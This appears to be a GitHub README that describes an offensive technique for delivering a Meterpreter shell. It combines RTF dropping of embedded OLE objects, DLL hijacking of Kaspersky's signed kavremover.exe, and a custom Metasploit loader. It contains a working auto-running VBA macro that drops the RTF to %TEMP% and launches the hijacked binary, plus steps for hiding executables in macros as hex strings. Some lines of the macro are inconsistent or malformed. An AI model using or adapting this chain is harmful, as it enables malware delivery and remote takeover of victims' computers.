 # RTF + Signed binary + DLL hijacking + Custom MSF loader

RTF's default behavior of dropping embedded OLE objects into the TEMP directory with a DLL hijacking vuln of a trusted (and signed) executable (Kaspersky's kavremover.exe) and a custom made Meterpreter loader

## Execution

1. Save current file as RTF in %tmp%
2. Manually open it, since automatic opening does not drop OLE objects
3. open kavremover.exe
   * 2 x functions called by kavremover.exe (MsiGetProductInfoA, MsiGetProductInfoA)

## Custom MSF loader

We are going to modify Rafael Mudge’s Metasploit loader so that it can hijack kavremover.exe’s legitimate DLL and provide us with a meterpreter shell. Following the procedure described in the below blog posts we can identify that we need to change function main() to the following.

* [Loader](https://github.com/rsmudge/metasploit-loader/blob/master/src/main.c)
* [Tutorial 1](https://astr0baby.wordpress.com/2014/02/12/custom-meterpreter-loader-dll/)
* [Tutorial 2](https://astr0baby.wordpress.com/2014/02/13/customising-meterpreter-loader-dll-part-2/)

```vb
    Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As LongPtr) 'For 64 Bit Systems

    Sub AutoOpen()
    Dim executable As String

    temp_path = Environ("TEMP") + "\"
    RTF_EXTENSION = ".rtf"
    qwerty = temp_path + "save_as_rtf" + RTF_EXTENSION

    Selection.WholeStory
        Selection.Copy
        Documents.Add Template:="Normal", NewTemplate:=False, DocumentType:=0
        Selection.PasteAndFormat (wdPasteDefault)
        ActiveDocument.SaveAs FileName:=qwerty, FileFormat:= _
            wdFormatRTF, LockComments:=False, Password:="", AddToRecentFiles:= _
            True, WritePassword:="", ReadOnlyRecommended:=False, EmbedTrueTypeFonts:= _
            False, SaveNativePictureFormat:=False, SaveFormsData:=False, _SaveAsAOCELetter:=False
        Sleep (2)
    Application.Documents("clone_as_rtf.rtf").Close(Word.WdSaveOptions.wdDoNotSaveChanges)
    Sleep (2)

    Shell ("cmd /c start winword %TEMP%/save_as_rtf.rtf & timeout 5 & %TEMP%\kavremover.exe")

    End Sub
```

### Embedding an executable in a macro (executable2vbs)

Executable inside its code via hex dumps in strings.

1. Re-assemble the hex dump strings
2. Drop to a temporary directory
3. Execute [file2vbscript](http://www.didierstevens.com/files/software/file2vbscript_v0_3.zip)